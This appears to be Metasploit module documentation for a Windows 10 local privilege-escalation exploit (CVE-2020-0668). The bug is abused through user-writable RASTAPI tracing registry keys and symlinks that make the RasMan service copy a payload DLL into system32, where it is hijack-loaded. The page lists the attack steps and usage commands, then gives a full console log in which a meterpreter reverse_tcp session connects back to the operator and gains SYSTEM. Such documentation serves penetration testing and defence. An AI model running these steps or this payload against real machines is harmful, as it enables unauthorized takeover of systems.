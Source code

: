 ## Vulnerable Application

Windows 10x64 build versions 17133-18362

## Introduction

This module makes changes to the filesystem that cannot be removed until
a reboot happens.  Specifically,
C:\windows\system32\WindowsCoreDeviceInfo.dll will be held opene by the
RasMan Service until a reboot.  I was not able to stop the service to
allow file removal.

The Remote Access Service runs as system and creates a log of its
actions called RASTAPI.LOG. Once the RASTAPI.LOG reaches a defined size,
the Remote Access Service copies RASTAPI.LOG to RASTAPI.OLD in the same
directory.
The issue is twofold. First, the behavior of the Remote Access Service
Tool API is defined by three registry keys:
HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI\EnableFileTracing
HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI\FileDirectory
HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI\new_size
These three registry keys allow a user to turn on the RASTAPI and
configure the size and location of the log file. These registry keys are
writable by a regular user.
The second issue is that the RAST service performs only a trivial check
on the filesystem location of the RASTAPI.OLD destination. If an
attacker creates a filesystem link between the old log destination
(i.e. C:\users\user\temp\RASTAPI.OLD) and a trusted location
(C:\windows\system32\badfile.dll), RASDIALER will copy the old log file
to the linked location as the SYSTEM user. In this case, we write to
C:\windows\system32\windowscoredeviceinfo.dll and then take advantage of
a hijacking vulnerability in the System Orchestrator service.

The attack looks something like:
1) Gain lower-privileged access to a vulnerable target.
2) Create a dummy directory to hold files.
3) Mount the dummy directory to \RPC Control
3) Upload a dll payload
4) Create a link between \RPC Control\RASTAPI.LOG and the uploaded
   payload
5) Create a link between \RPC Control\RASTAPI.OLD and the destination
   location the attacker would like to write (in this module,
   C:\Windows\system32\WindowsCreDeviceInfo.dll)
6) Write the registry keys to turn on FileTracing, set the file
   directory to the dummy directory, and set the max file size to one
   byte less than the size of the payload,
7) Upload a configuration file for the rasdialer
8) Launch the rasdialer. When RAST service kicks off, it tries to write
   a log file to the directory specified in the registry, but it finds
   one already exists, and it is already full, so RAST service then
   copies the file to the “old” location that’s linked to the trusted
   location. The result is an arbitrary file write to a trusted
   location.
9) At this point, the overwrite is complete and we launch a trigger
   starting the System Orchestrator service which loads the overwritten
   dll.

## Verification Steps

  1. Start msfconsole
  2. Get a session with basic privileges
  3. Do: ```use exploit/windows/local/cve_2020_0668_service_tracing```
  4. Do: ```set payload windows/x64/<payload>```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell running as SYSTEM after several minutes.

## Options

  **EXPLOIT_DIR**
  Directory to use for file upload and linking; this should not already
  exist.  The directory cannot be deleted until after a reboot.
  **OVERWRITE_DLL**
  Overwrite WindowsCreDeviceInfo.dll if it exists (false by default).
  WindowsCoreDeviceInfo.dll is not present by default, but if it is
  present, it is likely loaded, so even with this set to true, the
  overwrite (and exploit) will fail.
  **PAYLOAD_UPLOAD_NAME**
  The filename to use for the payload binary (%RAND% by default).
  This is the name of the dll payload when uploaded to the remote host.
  **PHONEBOOK_UPLOAD_NAME**
  The name of the phonebook file to trigger RASDIAL (%RAND% by default).
  The rasdialer trigger requires a config file; this is the name of the
  xml file required to trigger the RAST service.

## Scenarios

### Tested on Windows10x64 Release 1803

  ```
meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/cve_2020_0668_service_tracing 
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set verbose true
verbose => true
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set session 1
session => 1
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > show options

Module options (exploit/windows/local/cve_2020_0668_service_tracing):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   EXPLOIT_DIR                             no        The directory to create for mounting (%TEMP%\%RAND% by default).
   OVERWRITE_DLL          false            yes       Overwrite WindowsCreDeviceInfo.dll if it exists (false by default).
   PAYLOAD_UPLOAD_NAME                     no        The filename to use for the payload binary (%RAND% by default).
   PHONEBOOK_UPLOAD_NAME                   no        The name of the phonebook file to trigger RASDIAL (%RAND% by default).
   SESSION                1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/cve_2020_0668_service_tracing) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Build Number = 17134
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Payload DLL is 5120 bytes long
[*] Registry hash = [{:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"EnableFileTracing", :value_type=>"REG_DWORD", :value_value=>1, :delete_on_cleanup=>false}, {:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"FileDirectory", :value_type=>"REG_EXPAND_SZ", :value_value=>"C:\\Users\\msfuser\\AppData\\Local\\Temp\\jeYpOx", :delete_on_cleanup=>false}, {:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"MaxFileSize", :value_type=>"REG_DWORD", :value_value=>5119, :delete_on_cleanup=>false}]
[*] Making C:\Users\msfuser\AppData\Local\Temp\jeYpOx on DESKTOP-D1E425Q
[*] Creating C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Creating mountpoint
[+] Successfuly opened C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\FICNArio.dll
[*] Payload md5 = b8341507939ea464f81f0245628e470f
[*] Creating Symlinks
[*] Creating symlink C:\Users\msfuser\AppData\Local\Temp\FICNArio.dll in \RPC Control\RASTAPI.LOG
[*] Collected Symlink Handle 704
[*] Creating symlink C:\Windows\system32\WindowsCoreDeviceInfo.dll in \RPC Control\RASTAPI.OLD
[*] Collected Symlink Handle 688
[*] Writing EnableFileTracing to HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI
[*] Writing FileDirectory to HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI
[*] Writing MaxFileSize to HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI
[*] Uploading phonebook to DESKTOP-D1E425Q as C:\Users\msfuser\AppData\Local\Temp\TSvczqClZf.pbk from /home/tmoose/rapid7/metasploit-framework/data/exploits/cve-2020-0668/phonebook.txt
[*] Phonebook uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\TSvczqClZf.pbk
[*] Launching Rasdialer
[*] Running Rasdialer with phonebook C:\Users\msfuser\AppData\Local\Temp\TSvczqClZf.pbk
[*] Connecting to VPNTEST...

Remote Access error 807 - The network connection between your computer and the VPN server was interrupted.  This can be caused by a problem in the VPN transmission and is commonly the result of internet latency or simply that your VPN server has reached capacity.  Please try to reconnect to the VPN server.  If this problem persists, contact the VPN administrator and analyze quality of network connectivity.

For more help on this error:
	Type 'hh netcfg.chm'
	In help, click Troubleshooting, then Error Messages, then 807
[*] Checking on C:\Windows\system32\WindowsCoreDeviceInfo.dll
[*] Upload payload md5 = b8341507939ea464f81f0245628e470f
[*] Moved payload md5 = b8341507939ea464f81f0245628e470f
[*] Cleaning up before triggering dll load...
[*] Removing Registry keys
[*] Deleting EnableFileTracing from HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI key
[*] Deleting FileDirectory from HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI key
[*] Deleting MaxFileSize from HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI key
[*] Removing Symlinks
[*] Closing symlink handle 704: The operation completed successfully.
[*] Closing symlink handle 688: The operation completed successfully.
[*] Removing Mountpoint
[*] Removing directories
[*] Trying to start notepad
[*] Launching notepad to host the exploit...
[+] Process 7416 launched.
[*] Reflectively injecting the trigger DLL into 7416...
[*] Trigger injected.
[*] Trigger injected. Starting thread...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[!] Manual cleanup after reboot required for C:\Windows\system32\WindowsCoreDeviceInfo.dll and C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Exploit complete.  It may take up to 10 minutes to get a session
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49680) at 2020-04-29 09:39:54 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

